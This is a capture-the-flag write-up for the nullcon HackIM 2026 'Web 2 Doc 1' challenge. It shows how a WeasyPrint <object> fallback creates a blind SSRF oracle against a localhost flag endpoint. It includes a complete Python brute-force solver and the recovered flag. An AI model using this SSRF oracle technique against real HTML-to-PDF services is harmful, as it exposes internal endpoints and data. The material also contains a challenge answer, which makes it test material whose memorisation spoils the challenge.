

# nullcon HackIM CTF Goa 2026 -  Web 2 Doc 1 

# Challenge Description
The challenge has a portal where we can provide a link and the app will take a PDF of the website we gave.. classic SSRF. 
The flag is hosted in /admin/flag endpoint with the following code

```js
[...]
@app.route('/admin/flag')
def admin_flag():
    x_fetcher = request.headers.get('X-Fetcher', '').lower()
    if x_fetcher == 'internal':
        return f"""<html><h1>NOT OK</h1></html>""", 403
    if not is_localhost(request.remote_addr):
        return f"""<html><h1>NOT OK</h1></html>""", 403
    index = request.args.get('i',0, type=int)
    char = request.args.get('c','', type=str)
    if index < 0 or index >= len(FLAG):
        return f"""<html><h1>NOT OK</h1></html>""", 404
    if len(char) != 1:
        return f"""<html><h1>NOT OK</h1></html>""", 404
    if FLAG[index] != char:
        return f"""<html><h1>NOT OK</h1></html>""", 404
    return f"""<html><h1>OK</h1></html>"""
[...]
```
# Recon
Testing the portal with attacker controlled site we get the following request with these headers



As you can see.. `X-Fetcher: Internal` header is there. So we have to find another way. With more tweaking i found that the pdf converter weasyprint handles `<object> `tag. 

So we can use `<object src="http://127.0.0.1/admin/flag">` to perform the SSRF without the header `X-Fetcher`. 

Here is the interesting point. If the result is an error (40x), The child elements of the object tags are rendered. if not, the object is rendered as usual.

```py
@handler('object')
def handle_object(element, box, get_image_from_uri, base_url):
    """Handle ``<object>`` elements, return either an image or the fallback.

    See: https://www.w3.org/TR/html5/embedded-content-0.html#the-object-element

    """
    data = get_url_attribute(element, 'data', base_url)
    type_ = element.get('type', '').strip()
    if data:
        image = get_image_from_uri(
            url=data, forced_mime_type=type_,
            orientation=box.style['image_orientation'])
        if image is not None:
            return [make_replaced_box(element, box, image)]
    # The element’s children are the fallback.
    return [box]
``` 

https://github.com/Kozea/WeasyPrint/blob/85b65be475360ab3633ab0511f458f07d64b4cfc/weasyprint/html.py#L162

So we can use as an oracle to judge whether the predicted character in a particular index is right or wrong.👾👾👾👾

Here is the solution code:

```py
import requests
import io
from PyPDF2 import PdfReader
import string

URL = "http://52.59.124.14:5002/convert"

SESSION_COOKIE = "XXXXXXXXXXXXXXXX"
CAPTCHA = "28"

# candidate charset – tweak if needed
CHARSET = string.printable

flag = "ENO{weasy_pr1nt_can_h4v3_bl1nd_ssrf_OK!}"
start_index = len(flag)-1

headers = {
    "User-Agent": "Mozilla/5.0",
    "Accept": "*/*",
    "Origin": "http://52.59.124.14:5002",
    "Referer": "http://52.59.124.14:5002/",
}

cookies = {
    "session": SESSION_COOKIE
}


def is_blank_pdf(pdf_bytes: bytes) -> bool:
    """
    Returns True if PDF has no extractable text
    """
    reader = PdfReader(io.BytesIO(pdf_bytes))
    text = ""
    for page in reader.pages:
        extracted = page.extract_text()
        if extracted:
            text += extracted.strip()
    return len(text) == 0


while True:
    found = False

    for c in CHARSET:
        i = start_index
        target_url = (
            "https://r.jtw.sh/poc.html?"
            "body=%3Cobject+data%3D%22"
            f"http%3A%2F%2F127.0.0.1%3A5000%2Fadmin%2Fflag%3Fi%3D{i}%26c%3D{c}"
            "%22+%3E%3Ch1%3Easd%3C%2Fh1%3E%3C%2Fobject%3E"
        )

        files = {
            "url": (None, target_url),
            "captcha_answer": (None, CAPTCHA),
        }

        r = requests.post(
            URL,
            headers=headers,
            cookies=cookies,
            files=files,
            timeout=15,
        )

        if r.status_code != 200 or not r.content.startswith(b"%PDF"):
            print(f"[!] Bad response for i={i} c={c}")
            continue

        if is_blank_pdf(r.content):
            flag += c
            start_index += 1
            found = True
            print(f"[+] FOUND: {flag}")
            break
        else:
            print(f"[-] i={i} c={c} not valid")

    if not found:
        print("[!] No matching character found, stopping")
        break
```

FLAG :` ENO{weasy_pr1nt_can_h4v3_bl1nd_ssrf_OK!}`
